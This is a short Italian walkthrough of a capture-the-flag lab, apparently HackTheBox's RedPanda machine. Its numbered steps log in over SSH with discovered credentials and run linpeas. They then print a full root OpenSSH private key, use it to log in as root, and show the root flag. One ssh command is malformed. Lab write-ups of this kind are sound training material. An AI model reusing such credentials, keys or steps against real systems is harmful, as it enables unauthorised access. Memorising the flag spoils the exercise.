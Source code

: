 1) Abbiamo scoperto woodenk:RedPandazRule
2) Colleghiamoci con queste credenziali al servizio ssh
3) cd /tmp/
4) ./linpeas.sh
5) cat key.txt
6) nano id_rsa:
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29 ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE= 
-----END OPENSSH PRIVATE KEY-----
7) chmod 600 id_rsa
8) ssh -i = id_rsa root@10.10.11.170
9) cat root.txt
b86cdfa7fad24e060ec6264ddf491d53


